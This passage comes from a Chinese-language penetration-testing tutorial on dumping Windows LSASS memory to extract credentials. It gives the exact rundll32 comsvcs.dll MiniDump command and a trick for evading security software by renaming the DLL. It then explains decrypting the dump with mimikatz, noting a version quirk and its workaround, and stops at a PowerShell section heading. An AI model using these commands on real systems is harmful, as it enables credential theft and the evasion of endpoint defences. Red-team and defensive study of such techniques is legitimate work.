 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104030.png)

命令格式：

`rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full`

此处为：

`rundll32.exe comsvcs.dll MiniDump 508 c:\windows\temp full`

直接运行会被拦截:

![]()

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104032.png)

  

简单的绕过思路：  

copy一下comsvcs.dll并命名为随意名字，例如test.dll

    
    
    copy C:\windows\System32\comsvcs.dll test.dll  
    rundll32.exe test.dll, MiniDump 508 lsass.dmp full

![]()

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104033.png)

  

成功转储了lsass  

下载到本地解密。这里有个坑点

我下载到本地后，解密失败。一开始以为保存的时候没有保存全，又试了几次还是没有解密。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104035.png)

  

经过查询资料得知，是新版的mimikatz和win10
1809版本之间的问题导致解密失败。详见https://githubmemory.com/repo/gentilkiwi/mimikatz/issues/354  

换用mimikatz 1809版就好了。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104036.png)

  

成功解密。  

## powershell脚本

### Out-MiniDump.ps1
